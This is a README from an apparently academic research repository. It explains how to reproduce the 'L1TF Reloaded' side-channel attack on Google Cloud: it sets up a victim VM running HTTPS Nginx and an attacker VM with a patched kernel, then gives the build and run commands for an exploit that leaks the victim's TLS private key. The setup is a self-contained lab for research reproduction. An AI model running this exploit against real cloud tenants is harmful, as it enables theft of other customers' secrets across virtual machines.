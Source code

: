# Setting up the VMs

Make sure you have a functioning Google Cloud account.

## Create Sole-Tenant Node
- In the Google Compute Engine overview webpage, go to "Sole-tenant nodes".
- Click "Create node group", and:
  - Pick some "region" and "zone";
  - Create (or pick) a node template with:
    - "Node type" = n1-node-96-624; (Note: if not listed; pick another region/zone)
    - Enable "CPU overcommit".
  - Keep "Autoscaling" = off;
  - Pick "Number of nodes" = 1;
  - Keep the default maintenance and share settings.

## Create Victim VM
- In the Google Compute Engine overview webpage, go to "Sole-tenant nodes".
- Pick (one of) your node group(s) based on a "n1-node-96-624" template.
- Click "create instance", and:
  - Set the "name", to e.g. `gce-victim`
  - Keep all other settings default, which means 2 vCPUs, 7.5 GB Memory, 10GB disk with Debian 12 Bookworm OS, etc.
  - "Create" the VM instance.
- Copy `setup/install_nginx_https.sh` script over to `gce-victim` and run it to install the Nginx webserver and configure it to HTTPS.
  The output should contain the private key of a newly generated, self-signed TSL certificate,
  and an example webpage containing "Welcome to nginx!".

## Create Attacker VM

Create the `gce-attacker` VM via the Google Cloud Console,
similar to the victim VM, except for making its disk bigger: 50GB.
(We need some space to compile the Linux kernel.)

Install standard packages, download the L1TF Reloaded repo, and install a custom kernel that speeds up L1TF on `gce-attacker`:
```
sudo apt install -y locales-all fakeroot git kernel-wedge quilt ccache flex bison libssl-dev dh-exec rsync libelf-dev bc libncurses-dev lz4 liblz4-dev tmux cmake libgmp3-dev python3-pycryptodome
git clone git@github.com:vusec/l1tf_reloaded.git
git clone git@github.com:torvalds/linux.git --branch v6.13 --depth 1
cd linux
git apply ../l1tf_reloaded/setup/l1tf-pf.patch
cp ../l1tf_reloaded/setup/kconfig .config
make -j2 bindeb-pkg
printf "\nGRUB_DISABLE_SUBMENU=y\n" | sudo tee /etc/default/grub
sudo dpkg -i ../linux-*.deb
```

Building the kernel takes almost 2 hours, so you might want to run it in the background in a tmux session.

Reboot the VM into the just installed `l1tf-pf` kernel (`sudo reboot`).
After reboot, ensure `uname -r` gives back `6.13.0-l1tf-pf+`.

## The Exploit

Go into the `l1tf_reloaded` directory. Load the required dependencies and install the needed kernel modules:
```
make load_modules
```

Ensure `include/config.h` holds the following configuration:
```
#define MACHINE GCE
#define HELPERS 0
#define LEAK L1TF
```

Build the exploit:
```
make exploit
```

Run the exploit:
```
make
```

This will take many hours, hence we recommend running this inside a tmux session or similar.
Output of `stdout` will go to the screen as well as the file `std.out`, and extra
verbose `stderr` output is saved in the file `std.err`.

If all goes well, you expect to see something similar to our demo, resulting in a leaked private key.
To check its correctness, compare it against the true key of the victim's Nginx webserver,
located at `gce-victim:/etc/ssl/private/nginx-selfsigned.key`.
